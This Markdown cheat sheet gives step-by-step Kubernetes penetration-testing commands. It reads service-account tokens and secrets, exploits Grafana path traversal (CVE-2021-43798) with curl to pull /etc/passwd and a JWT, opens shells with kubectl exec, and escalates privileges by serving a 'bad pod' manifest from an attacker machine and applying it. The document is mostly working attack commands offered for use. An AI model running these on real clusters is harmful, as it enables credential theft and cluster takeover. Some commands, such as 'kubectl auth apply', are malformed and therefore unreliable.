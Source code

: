 ```yaml
---
title: Kubernetes Pentesting
desc: 
tags: [Container, Kubectl, Kubernetes]
alts: [JWT-Pentesting]
render_with_liquid: false
---
```


## 1. Interact with Kubernetes API Server

1. **Create a Service Account**

    ```sh
    # Create a ServiceAccount
    kubectl serviceaccount api-explorer
    # Bind the ClusterRole to the ServiceAccount
    # eg. namespace: default
    kubectl create rolebinding api-explorer:log-reader --clusterrole log-reader --serviceaccount default:api-explorer 
    ```

2. **Check Your Permission**

    ```sh
    kubectl auth can-i --list
    # /var/run/secrets/kubernetes.io/serviceaccount/token
    kubectl auth can-i --list --token=<JWT>
    ```

3. **List All Pods**

    ```sh
    kubectl get pods
    ```

4. **List All Secrets**

    ```sh
    kubectl get secrets

    # Get the specific secret
    kubectl get secret <secret-name>
    # Get the specific secret to output json
    kubectl get secret <secret-name> -o 'json'

    # List all data contained in the specific secret
    kubectl describe secret <secret-name>
    ```

5. **Get the Token (JWT) of the Service Account Running a Pod**

    ```sh
    cat /var/run/secrets/kubernetes.io/serviceaccount/token
    ```

<br />

## 2. Grafana Exploiting

Some Grafana versions are vulnerable to Path Traversal.  

Kubernetes creates environment variables by default.

1. **Check Environment Variables on the Target Machine**

    ```sh
    env
    ```

    If you got the GRAFANA environment like the following, the Grafana service is running on the cluster.  

    ```
    GRAFANA_SERVICE_HOST=10.108.133.228
    GRAFANA_PORT=tcp://10.108.133.228:3000
    GRAFANA_PORT_3000_TCP=tcp://10.108.133.228:3000
    ```

2. **Access the Grafana Dashboard**

    You can access the service at **http://<grafana-ip>:<grafana-port>**.  

2. **Get the JWT of the Service Account**

    Using Path Traversal (CVE-2021-43798).

    ```sh
    curl --path-as-is http://<grafana-ip>:<grafana-port>/public/plugins/alertlist/../../../../../../../../etc/passwd
    ```

    Get the token (JWT) of the service account.

    ```sh
    curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
    ```

3. **Decode the JWT and Get Sensitive Information**

    See **[JWT Pentesting](./JWT-Pentesting){:target="_blank"}**.
    

4. **Check Your Permission of This Service**

    Using the JWT, you should get permissions.

    ```sh
    kubectl auth can-i --list --token=<Grafana-JWT>

    # List pods
    kubectl get pods --token=<JWT>
    ```

5. **Get a Shell on the Grafana Pod**

    ```sh
    kubectl exec -it <grafana-pod-name> --token=<Grafana-JWT> -- /bin/bash
    ```

## 3. Privilege Escalation using Bad Pods

    Reference: [everything-allowed-exec-pod.yaml](https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml){:target="_blank"}

1. **Download the Bad Pod**

    At first, you need to download the bad pod on your local machine.

    ```sh
    wget https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml -O privesc.yaml
    ```

    Then start web server to allow the target machine to get this bad pod.

    ```sh
    python3 -m http.server 8000
    ```

3. **Trasfer the Bad Pod to the Target Machine**

    On the target machine, download the bad pod from your local machine.

    ```sh
    wget http://<your-local-ip>:8000/privesc.yaml
    ```

4. **Create the Pod**

    ```sh
    # Create the pod
    kubectl auth apply -f privesc.yaml --token=<JWT>
    
    # List all pods
    kubectl get pods --token=<JWT>
    ```

5. **Get a Shell**

    ```sh
    kubectl exec -it everything-allowed-exec-pod --token=<JWT> -- /bin/bash
    ```
